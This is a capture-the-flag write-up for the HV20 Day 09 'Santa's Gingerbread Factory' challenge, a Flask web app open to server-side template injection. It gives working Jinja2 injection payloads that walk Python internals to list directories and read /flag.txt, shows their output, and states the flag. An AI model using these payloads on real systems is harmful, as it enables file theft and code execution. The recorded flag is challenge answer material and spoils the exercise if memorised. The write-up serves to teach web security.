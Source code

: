 [← Day 08](../day08/) / [↑ TOC](../README.md) / [→ Day 10](../day10/)


# Day 09 / HV20.09 Santa's Gingerbread Factory



## Challenge

<!-- ...10....:...20....:...30....:...40....:...50....:...60....:...70....:. -->
* Author: inik
* Tags:   `#penetration-testing` `#web-security`
* Level:  Medium


### Introduction

Here you can customize your absolutely fat-free gingerbread man.

Note: Start your personal instance from the `RESOURCES` section on top.


### Goal / Mission

Besides the gingerbread men, there are other goodies there. Let's see if you
can get the goodie, which is stored in /flag.txt.



## Solution

The website is a [Flask] web application and the topic is [Flask injection].

[Flask]: https://en.wikipedia.org/wiki/Flask_(web_framework)
[Flask injection]: https://blog.nvisium.com/injecting-flask

Starting with a simple injection like `{{ 4 * 4 }}` – which evaluates to `16` –
after a lot of trial and error one of many solutions can be discovered …

1. A file listing injection:
   
   ```python
   {{''.__class__.mro()[2].__subclasses__()[59]()._module.__builtins__.__import__('os').listdir('.')}}

   The ginger bread man says: 
    -------------------------------
   ( Hello, mighty ['bin', 'boot', )
   ( 'dev', 'etc', 'home', 'lib',  )
   ( 'lib64', 'media', 'mnt',      )
   ( 'opt', 'proc', 'root', 'run', )
   ( 'sbin', 'srv', 'sys', 'tmp',  )
   ( 'usr', 'var', '.dockerenv',   )
   ( 'flag.txt']                   )
    -------------------------------
   ```

2. An injection to extract the flag:

   ```python
   {{''.__class__.mro()[2].__subclasses__()[59]()._module.__builtins__['open'](''.__class__.mro()[2].__subclasses__()[59]()._module.__builtins__.__import__('os').path.join('.','flag.txt')).read()}}

   The ginger bread man says:
    --------------------------------
   ( Hello, mighty HV20{SST1_N0t_0N )
   ( LY_H1Ts_UB3R!!!}               )
    --------------------------------
   ```

--------------------------------------------------------------------------------

Flag: `HV20{SST1_N0t_0NLY_H1Ts_UB3R!!!}`

[← Day 08](../day08/) / [↑ TOC](../README.md) / [→ Day 10](../day10/)
